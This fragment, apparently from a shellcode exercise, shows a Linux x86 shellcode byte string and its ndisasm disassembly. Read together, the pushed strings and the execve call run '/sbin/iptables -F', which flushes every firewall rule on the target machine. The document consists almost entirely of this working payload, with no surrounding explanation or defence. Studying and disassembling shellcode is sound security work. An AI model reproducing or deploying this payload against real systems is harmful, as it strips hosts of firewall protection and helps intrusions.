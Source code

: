 # Initial nasm code

(Obtain from echo -ne ""\x31\xc0\x50\x66\x68\x2d\x46\x89\xe6\x50\x68\x62\x6c\x65\x73\x68\x69\x70\x74\x61\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x73\x89\xe3\x50\x56\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" | ndisasm -u -)
  
    00000000  31C0              xor eax,eax
    00000002  50                push eax
    00000003  66682D46          push word 0x462d
    00000007  89E6              mov esi,esp
    00000009  50                push eax
    0000000A  68626C6573        push dword 0x73656c62
    0000000F  6869707461        push dword 0x61747069
    00000014  6862696E2F        push dword 0x2f6e6962
    00000019  682F2F2F73        push dword 0x732f2f2f
    0000001E  89E3              mov ebx,esp
    00000020  50                push eax
    00000021  56                push esi
    00000022  53                push ebx
    00000023  89E1              mov ecx,esp
    00000025  89C2              mov edx,eax
    00000027  B00B              mov al,0xb
    00000029  CD80              int 0x80
